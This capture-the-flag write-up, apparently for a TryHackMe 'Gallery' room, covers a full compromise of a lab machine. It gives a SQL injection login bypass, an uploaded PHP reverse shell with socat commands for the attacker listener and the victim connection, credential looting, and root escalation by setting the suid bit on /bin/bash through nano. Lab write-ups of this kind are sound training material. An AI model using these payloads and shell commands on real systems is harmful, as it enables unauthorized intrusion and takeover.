





<head>
<h1><center>Gallery</center></h1>
</head>

## Description

Our gallery is not very well secured.

<br>

## Enumeration

We are provided with the IP of the machine.

<br>

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are two open ports on the machine.

```
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
```

#### Port 80

&nbsp;&nbsp;&nbsp;Going over to the port 80 shows default Apache webpage.


#### Port 8080

&nbsp;&nbsp;&nbsp;Going over to the port 8080 redirects to /gallery/login.php


Searching the title *Simple Image Gallery System* on google shows that it is an open source image manager that works on **php** and **SQL**.

<br>

### Login

Since the webpage is running SQL, we can use the creds to login.

>**Username**: ' OR 1=1 -- -

>**Password**: ' OR 1=1 -- -

This gives us the access as *Admin*

<br>

## Getting Shell

To get a shell we can upload a reverse shell in the **Album** and include it.



Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After getting shell in order to stabilize it we can use Python.
But I have used socat since it is already installed on the machine.

attacker
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>
```
victim
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>
```

<br>

## Machine

We get the shell as the user www-data.

Checking the /etc/passwd shows that we have these users
```
1. mike
2. ubuntu
3. root
```

To enumerate the machine I have used [linpeas](https://linpeas.sh)
Here there is an interesting result



We got the password for the user mike here.
```
b3stpassw0rdbr0xx
```
After logging in as mike there is user.txt in his home directory

```
THM{af05cd30bfed6#############}
```

<br>

## Privilege Escalation

Using `sudo -l` command as user mike reveals this..

```
mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

here the user mike can run the script ***rootkit.sh*** as root.
Checking the script shows this..
```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

Here read command is opening `nano` using which we can execute commands.
But this is where I was getting an error
```
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
Error opening terminal: unknown.
```
A quick google search showed a fix for this
Type this command
```
export TERM=linux
```
Now we can open nano
I have followed these commands to set a *suid* bit on `/bin/bash`
```
^R ^X
chmod +s /bin/bash
```


```

mike@gallery:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

```
Now we can run `/bin/bash -p` command to get the shell as root.

```
mike@gallery:~$ /bin/bash -p
bash-4.4# whoami
root
``` 

root.txt
```
THM{ba87e0dfe5903adf#####################}
```

<br>

# AdMiner

Here we need admin password hash to submit to THM

For this we need username, password, database name.
Checking the file `/var/www/html/gallery/initialize.php` we can see these creds

```
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```

So to get it we can use `mysql` on machine.
But here I have used [Adminer](https://github.com/vrana/adminer/releases/download/v4.8.1/adminer-4.8.1.php) which is a GUI for SQL DataBase in a single file.

I have hosted this file on my http server and used wget to tranfer it to `/var/www/html` directory
Then I have accessed this from the webpage



Now using this command shows us the users data

```
SELECT * FROM `users` LIMIT 50
```



Admin password hash

```
a228b12a08b6527#################
```
